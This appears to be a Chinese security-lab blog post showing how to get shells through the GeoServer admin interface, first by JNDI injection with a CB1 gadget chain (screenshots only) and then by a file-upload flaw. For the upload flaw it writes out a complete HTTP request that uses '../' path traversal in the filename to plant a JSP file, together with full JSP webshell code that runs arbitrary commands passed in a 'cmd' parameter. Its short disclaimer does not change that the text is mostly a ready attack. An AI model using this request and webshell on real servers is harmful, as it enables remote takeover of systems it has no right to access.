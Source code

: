 #  geoserver漏洞解析以及测试方法   
 重生之成为赛博女保安   2024-05-25 15:02  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltD8XPW4tic7XhWH2y1kX6BrxtIs7mLr9KGqtsicVGTbEWH5ic3GY75MaN1ZLqA8sDTRsN9NwWibwmSUliaw/640?wx_fmt=png "")  
  
相信各位师傅在HVV中，都遇到过geoserver系统，但是一般都是弱口令或者信息泄露、SSRF之类的，拿shell的案例不多，下面分享下geoserver系统后台的两种打法。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDicMfKmcJzYjaxQSVhek6Jmkfice4hVHZcqF6Fib0fU2tvXTzz85onPw8OvnLHDpmb2AwG6iapNMibxLDA/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOUxKIDX977h2rZ4zxek8KhgGbEltlY7DGRxlEpEJHhLiaM3uX8CXbicOA/640?wx_fmt=png "")  
  
  
一、后台JNDI 注  
⼊  
  
测试版本：Version 2.13.3  
  
数据储存—》添加新的数据存储—》PostGIS (JNDI) —》jndiReferenceName *  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOJeorKPcliacSarsy4WXq14547IOH45ESkP9nibeXbe98CcibsY0M7kVDA/640?wx_fmt=png "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOa6SibvZhPQuib4UGBVEv3LlCWH4bSOmYIDY17BUCaq95RL83DQ7QdH3A/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vO8jyLKo6U0icpp2hzrtPLMj91biaVmT6SdGR1CmWWZhc4U0js77vcjichA/640?wx_fmt=png "")  
  
  
使用CB1链，弹个计算器      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOFsDZBP25HwLkTMjIiawGxcicV6tfzJk20YiaLz2PKDOztCFVEesmFFKibg/640?wx_fmt=png "")  
  
  
            
  
二、GeoServer后台文件上传致远程代码执行漏洞  
  
测试版本：Version 2.22.2  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOuKnQnia9y7edbzGSvnQechvrHRdTaf9sia1icstiaavrpzKwXfibHNouOlA/640?wx_fmt=png "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOxhfLFXRPwGvu3ic8CsWa9AlRtc1XWEPogkSLD4ua8VdPic0y26xCse7g/640?wx_fmt=png "")  
  
  
修改相对路径为绝对路径，即可愉快的上传webshell了。      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOuU3biclygIQEfJ6hiaJ6ByWH4icvO0ZgiaJ5KgT3WE2lyxPUKQzHc3ammw/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOPRFEsjH2PcMRU9agibmw67nUBxQOcCBvFFEYJPBJu5FBHNHP8CSquAg/640?wx_fmt=png "")  
  
  
我了个去，不解析jsp      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOQYtVYuqslVPAPRFpLUIrXosDVznOXAy2cUCbgckDmoLNaDxtkZ0hWw/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOFIQzjNmYWbGiah7LAVDc46PjqxK6rhJynEP1RvYbARWWicb1iatdvzUbw/640?wx_fmt=png "")  
  
  
换war包用tomcat部署  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOT4nkVTiaYvU0GbK296TeUxgkeIkrOgYtzWibDDnBaozhMFo2bfx95icpw/640?wx_fmt=png "")  
  
      
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOBic8HWcfCMnGQwMoVlLFfmmdEibqcH0YhbPJxPA1uSTGiamPIQdqctr3Q/640?wx_fmt=png "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOjyNJbajrjySkPenK1kKwd5NkjWutrX7XsJ1stO74o4QfLibq3fge4XQ/640?wx_fmt=png "")  
  
<table><tbody><tr><td width="414" valign="top" style="padding: 0pt 5.4pt;border-width: 1pt;border-color: windowtext;"><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">POST /geoserver/rest/workspaces/nurc/coveragestores/mosaic/file.shp?filename=../../../../shell/1.jsp HTTP/1.1</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Host: localhost:8080</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Content-Length: 370</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">sec-ch-ua: &#34;Not_A Brand&#34;;v=&#34;8&#34;, &#34;Chromium&#34;;v=&#34;120&#34;</span>        <o:page></o:page></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">sec-ch-ua-mobile: ?0</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Wicket-FocusedElementId: id39</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Content-Type: multipart/form-data; boundary-----WebKitFormBoundaryfoycybhDiQZEqxoy</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Accept: application/xml, text/xml, */*; q=0.01</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Wicket-Ajax-BaseURL: wicket/bookmarkable/org.geoserver.web.data.store.CoverageStoreEditPage?7&amp;storeName=mosaic&amp;wsName=nurc</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">X-Requested-With: XMLHttpRequest</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Wicket-Ajax: true</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">sec-ch-ua-platform: &#34;Windows&#34;</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Origin: http://localhost:8080</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Sec-Fetch-Site: same-origin</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Sec-Fetch-Mode: cors</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Sec-Fetch-Dest: empty</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Referer: http://localhost:8080/geoserver/web/wicket/bookmarkable/org.geoserver.web.data.store.CoverageStoreEditPage?7&amp;storeName=mosaic&amp;wsName=nurc</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Accept-Encoding: gzip, deflate, br</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Accept-Language: zh-CN,zh;q=0.9</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Cookie:JSESSIONID=52159346772CE228794C0E097A442D9F</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">Connection: close</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">                 <o:p> </o:p></span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">&lt;%</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">    if(request.getParameter(&#34;cmd&#34;) != null) {</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(&#34;cmd&#34;)).getInputStream();</span>        <o:page></o:page></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        int a = -1;</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        byte[] b = new byte[2048];</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">        out.print(&#34;</span></p><pre>&#34;);<p><br/></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">        while((a=in.read(b))!=-1) {</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">            out.print(new String(b));</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">        }</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;">        out.print(&#34;</span></p></pre>&#34;);<p><br/></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">    }</span></p><p style="line-height: 25.5px;"><span style="font-size: 12pt;line-height: 24px;font-family: &#34;Times New Roman&#34;;font-variant-numeric: normal;font-variant-east-asian: normal;font-variant-alternates: normal;font-variant-position: normal;">%&gt;</span></p></td></tr></tbody></table>  
![](https://mmbiz.qpic.cn/mmbiz_png/wiaue9ibOltDibSceHZSNrnPVNwVp4Xo3vOptWbbRGO14CGCoDXDgzwgkicX03JMmkooXTrDubma1MBZxwT9w3rzEA/640?wx_fmt=png "")  
  
  
该漏洞虽然已公布部分 poc但仍处于 1day状态，请勿用于违法用途，仅做测试环境交流学习。由于该系统弱口令使用情况较为广泛，建议受影响的用户尽快修复漏洞。  
      
  
-=[感·谢·阅·读]=-  
  
**关于我们**  
  
  
星网实验室成立（starnetlabs）于2021年10月，是智网安云（武汉）信息技术有限公司旗下安全研究院实验室之一，其成员主要来源于国内一线安全厂商或监管执法机构，多名成员取得CISSP，CISP，PMP，CISAW，PTE等国内网络安全圈行业认证证书，该实验室研究员多次参加国内和省内网络安全攻防比赛取得佳绩。实验室主要研究方向：网络安全攻防竞赛、最前沿的攻防技术，云计算安全、物联网安全等。形成一支结构合理、创新能力强的产学研队伍。星网实验室将持续沉淀前沿安全能力，面向产业输出业蓝军网络安全对抗工具、红队攻击武器平台、蜜网平台、大数据安全管理中心等产品，并持续开放各项核心能力，推动产业安全能力建设。护航各行业数字化变革，守护大数据时代的网络安全是星网实验室的使命。  
  
**大**  
  
**佬**  
  
**，**  
  
**关**  
  
**注**  
  
**一**  
  
**下**  
  
**呗**  
  
**！**  
  
  
  
